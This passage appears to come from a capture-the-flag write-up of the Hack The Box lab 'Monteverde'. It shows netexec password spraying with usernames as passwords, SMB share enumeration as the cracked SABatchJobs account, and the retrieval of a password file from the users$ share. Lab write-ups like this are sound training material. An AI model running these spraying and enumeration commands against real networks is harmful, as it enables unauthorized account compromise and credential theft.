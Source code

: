 The second option is to do password spraying. Since we don't have any wordlist and password spraying with *rockyou.txt* doesn't seem to be really feasible, we can try spraying each username with their own username. This succeeded and I found the user `SABatchJobs` to be reusing the username as the password.

```
┌──(chronopad㉿VincentXPS)-[~/HTB/newlabs/monteverde-windows]
└─$ netexec smb 10.10.10.172 -u user.list -p user.list --continue-on-success
...SNIP...
SMB         10.10.10.172    445    MONTEVERDE       [+] MEGABANK.LOCAL\SABatchJobs:SABatchJobs
...SNIP...
```

###### SMB enumeration as SABatchJobs
I check the share permissions of `SABatchJobs` user  and found that this user can read the `azure_uploads` and `users$` shares.

```
┌──(chronopad㉿VincentXPS)-[~/HTB/newlabs/monteverde-windows]
└─$ netexec smb 10.10.10.172 -u 'SABatchJobs' -p 'SABatchJobs' --shares
SMB         10.10.10.172    445    MONTEVERDE       [*] Windows 10 / Server 2019 Build 17763 x64 (name:MONTEVERDE) (domain:MEGABANK.LOCAL) (signing:True) (SMBv1:False)
SMB         10.10.10.172    445    MONTEVERDE       [+] MEGABANK.LOCAL\SABatchJobs:SABatchJobs
SMB         10.10.10.172    445    MONTEVERDE       [*] Enumerated shares
SMB         10.10.10.172    445    MONTEVERDE       Share           Permissions     Remark
SMB         10.10.10.172    445    MONTEVERDE       -----           -----------     ------
SMB         10.10.10.172    445    MONTEVERDE       ADMIN$                          Remote Admin
SMB         10.10.10.172    445    MONTEVERDE       azure_uploads   READ
SMB         10.10.10.172    445    MONTEVERDE       C$                              Default share
SMB         10.10.10.172    445    MONTEVERDE       E$                              Default share
SMB         10.10.10.172    445    MONTEVERDE       IPC$            READ            Remote IPC
SMB         10.10.10.172    445    MONTEVERDE       NETLOGON        READ            Logon server share
SMB         10.10.10.172    445    MONTEVERDE       SYSVOL          READ            Logon server share
SMB         10.10.10.172    445    MONTEVERDE       users$          READ
```

I connected to the `azure_uploads` share to view the contents, but it is empty.

```
┌──(chronopad㉿VincentXPS)-[~/HTB/newlabs/monteverde-windows]
└─$ smbclient //10.10.10.172/azure_uploads -U SABatchJobs SABatchJobs
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Fri Jan  3 19:43:06 2020
  ..                                  D        0  Fri Jan  3 19:43:06 2020

                31999 blocks of size 4096. 28979 blocks available
smb: \>
```

I connected to the other share, `users$`. The share contains some directories for different users. I found something interesting in the directory *mhope*. Retrieved the file *azure.xml*, which contains a password, which should be for user `mhope`.
